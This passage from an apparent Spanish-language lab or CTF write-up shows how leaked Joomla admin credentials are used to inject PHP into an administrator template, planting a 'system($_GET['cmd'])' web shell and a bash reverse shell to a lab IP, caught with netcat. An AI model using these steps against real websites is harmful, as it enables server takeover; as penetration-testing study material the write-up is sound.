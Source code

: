 Colocando las credenciales que hemos conseguido `lewis:P4ntherg0t1n5r3c0n##` podemos ver que estamos dentro de un panel administrativo de Joomla, lo que queda ahora es buscar una manera de poder obtener ejecución remota de comandos, o enumerar algunas cosillas que podemos pillar en este panel. Tener muy en cuenta que el panel en el que estamos es `index.php` esto tomara más sentido adelante.

![Pasted image 20240119151358](https://github.com/Gr4ykt/gr4ykt.github.io/assets/78503985/79c2ef87-550a-40cb-aeab-9a1a865f39ed)

Bien, pues probando diferentes cosas, ya fuera algún panel que permita ejecutar comandos, credenciales SSH u otras maneras de enumerar, pues resulto todo en fallo, pero indagando más a fondo en el funcionamiento de Joomla, llegue a lo siguiente.

Pues bien, el panel administrativo de Joomla permite a los usuarios administradores cambiar partes del gestor de contenido a través de este mismo, en un panel que se encuentra en esta ruta `System > Templates > Administrator Templates` todo expuesto en el mismo panel que visualiza el administrador del lado izquierdo. Entrando a este, pude ver que hay un `index.php`, ¿recuerdas que dije que te acordaras de ello, que sería importante más adelante? Correcto, este panel será el cual trataremos de inyectar código, ya que es uno de los que visualizamos en este panel de editor.

Por lo tanto, lo suyo sería en este caso tratar de inyectar un hola mundo sencillo para ver si lo pilla, entonces agregamos un `echo "hola mundo";` y guardamos y cerramos, veamos que sucede.

![Pasted image 20240119160127](https://github.com/Gr4ykt/gr4ykt.github.io/assets/78503985/e802c8c8-8a13-46a7-a6e0-c4afb7b07cae)

![Pasted image 20240119205603](https://github.com/Gr4ykt/gr4ykt.github.io/assets/78503985/c21c0f66-d573-49d6-aa78-ea6a02c22dda)

Bien, como podemos ver, el código en PHP inyectado funciona, lo interpreta, por lo tanto, ahora lo suyo sería ver si nos permite utilizar `exec` o `system`. Lo primero será utilizar `system` para ver si podemos inyectar comandos, de la misma manera anterior vista anteriormente, agregamos nuestra nueva línea de código, y podemos ver que funciona.

```php
echo "<pre>" . system($_GET["cmd"]) . "</pre>";
```

![Pasted image 20240119205811](https://github.com/Gr4ykt/gr4ykt.github.io/assets/78503985/46682c74-ac12-46c1-a65a-347d7644cca2)

Ahora nos quedaría entablar la reverse shell, en este caso, digo de inmediato que tratando a través de `system` no lo conseguí, falle en todos los intentos y ninguno funciono. Por ende, lo que podemos tratar de hacer es utilizar `exec` para ver si ejecuta por detrás la reverse shell que le pasaremos, la cual es la siguiente en mi caso:

```bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.49/5656 0>&1'");
```

Bien, una vez puesto todo en su lugar, nuevamente, pasando por el proceso mencionado con anterioridad para acceder al panel de editor del administrador en Joomla, nos ponemos en escucha por algún puerto, en mi caso el `5656` con `netcat`.

```bash
nc -lnvp 5656
```

Una vez cuando nos pongamos en escucha, podemos guardar e ir al `index.php` y enhorabuena, tenemos acceso a la máquina.

![Pasted image 20240119210717](https://github.com/Gr4ykt/gr4ykt.github.io/assets/78503985/447569be-b4d2-412b-a88e-8a767e139407)

